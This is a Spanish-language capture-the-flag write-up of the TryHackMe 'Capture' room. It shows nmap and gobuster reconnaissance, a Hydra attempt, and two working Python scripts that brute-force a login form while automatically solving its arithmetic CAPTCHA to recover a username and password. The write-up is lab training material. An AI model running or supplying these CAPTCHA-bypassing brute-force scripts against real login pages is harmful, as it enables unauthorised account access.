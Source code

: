 ```yaml
---
title: "Capture"
description: "Capture"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/capture

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.139.144
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240430193835.png)

## Gobuster

````
gobuster dir -u http://10.10.139.144 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240430214946.png)

# Fase de ataque

## Hydra

Intentamos con Hydra al formulario pero no da resultado debido a que tras un numero de intentos se activa un CAPTCHA

````
hydra -L usernames.txt -P passwords.txt "http-post-form://10.10.139.144/login:username=^USER^&password=^PASS^:Error"
````

## Script fuerza bruta

Primero buscamos el usuario

````
import requests
import re

url = "http://10.10.64.26/login"
usuarios_file = "usernames.txt"
contrasenas_file = "passwords.txt"

with open(contrasenas_file, 'r') as contrasenas:
    lista_contrasenas = [contrasena.strip() for contrasena in contrasenas.readlines()]

with open(usuarios_file, 'r') as usuarios:
    for contrasena in lista_contrasenas:
        for usuario in usuarios:
            usuario = usuario.strip()
            data = {"username": usuario, "password": contrasena}
            respuesta = requests.post(url, data=data)
            web = respuesta.content.decode('utf-8')

            if "Invalid captcha" in web:
                numeros = re.findall(r'(\d+)\s*([-+])\s*(\d+)', web)
                if numeros:
                    num1, operador, num2 = numeros[0]
                    if operador == '+':
                        captcha = int(num1) + int(num2)
                    else:
                        captcha = int(num1) - int(num2)

                    data["captcha"] = captcha
                    respuestac = requests.post(url, data=data)
                    webc = respuestac.content.decode('utf-8')

                    if "Invalid captcha" not in webc:
                        print("Usuario:", usuario, ", Contrasena:", contrasena)

                        if "does not exist" not in webc:
                            print("Usuario encontrado:", usuario, "!")
                            if "Invalid password" not in webc:
                                print("Contrasena valida para", usuario, ":", contrasena)
                                exit()

            else:
                if "does not exist" not in web:
                    print("Usuario encontrado:", usuario, "!")
                    if "Invalid password" not in web:
                        print("Contrasena valida para", usuario, ":", contrasena)
                        exit()
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240430225706.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240430225750.png)
Ahora buscamos la contraseña

````
import requests

import re

  

url = "http://10.10.64.26/login"

contrasenas_file = "passwords.txt"

  

with open(contrasenas_file, 'r') as contrasenas:

    lista_contrasenas = [contrasena.strip() for contrasena in contrasenas.readlines()]

    for contrasena in lista_contrasenas:

        data = {"username": "natalie", "password": contrasena}

        respuesta = requests.post(url, data=data)

        web = respuesta.content.decode('utf-8')

  

        if "Invalid captcha" in web:

            numeros = re.findall(r'(\d+)\s*([-+])\s*(\d+)', web)

            if numeros:

                num1, operador, num2 = numeros[0]

                if operador == '+':

                    captcha = int(num1) + int(num2)

                else:

                    captcha = int(num1) - int(num2)

  

                data["captcha"] = captcha

                respuestac = requests.post(url, data=data)

                webc = respuestac.content.decode('utf-8')

  

                if "Invalid captcha" not in webc:

                    print("Usuario:", "natalie", "Contrasena:", contrasena)

                    if "does not exist" not in webc:

                        if "Invalid password" not in webc:

                            print("Contrasena valida para", "natalie", ":", contrasena)

                            exit()

        else:

            if "does not exist" not in web:

                if "Invalid password" not in web:

                    print("Contrasena valida para", "natalie", ":", contrasena)

                    exit()
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240430230655.png)
\[-\] ==pwned!==
